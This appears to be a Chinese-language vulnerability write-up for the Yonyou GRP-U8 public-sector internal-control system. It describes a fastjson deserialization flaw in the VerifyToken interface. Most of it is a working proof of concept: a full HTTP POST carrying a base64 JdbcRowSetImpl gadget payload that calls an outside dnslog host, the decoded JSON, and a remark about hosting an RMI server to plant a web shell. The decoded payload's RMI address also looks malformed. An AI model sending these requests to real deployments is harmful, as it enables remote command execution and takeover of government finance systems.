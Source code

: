 app="用友-GRP-U8"

**一、漏洞简述**

用友GRP-U8行政事业内控管理软件是一款专门针对行政事业单位开发的内部控制管理系统，旨在提高内部控制的效率和准确性。该软件具有以下功能特点：基于B/S架构设计，支持多级权限管理，确保数据安全性和系统稳定性；提供全面的内部控制功能，包括预算编制、收支管理、资产管理、合同管理、采购管理等多个模块，满足行政事业单位的全方位需求；支持与用友GRP-U8财务系统无缝对接，实现财务数据与业务数据的统一管理和共享； 可根据用户需求进行定制开发，支持二次开发和系统扩展。其接口VerifyToken存在fastjson反序列化漏洞，攻击者可通过该漏洞执行系统命令从而控制该系统。

**二、漏洞检测poc**

```YAML
POST /VerifyToken HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; CrOS i686 3912.101.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/27.0.1453.116 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 254

PARAM=eyJuYW1lIjp7IkB0eXBlIjoiamF2YS5sYW5nLkNsYXNzIiwidmFsIjoiY29tLnN1bi5yb3dzZXQuSmRiY1Jvd1NldEltcGwifSwieCI6eyJAdHlwZSI6ImNvbS5zdW4ucm93c2V0LkpkYmNSb3dTZXRJbXBsIiwiZGF0YVNvdXJjZU5hbWUiOiJkbnM6Ly8yMDUwYTU5MS5kbnNsb2cuYml6IiwiYXV0b0NvbW1pdCI6dHJ1ZX19
```

经过base编码

命令执行搭建rmi服务器写入shell进行访问

```解码后
{"name":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"x":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://shell.jsp","autoCommit":true}}
```

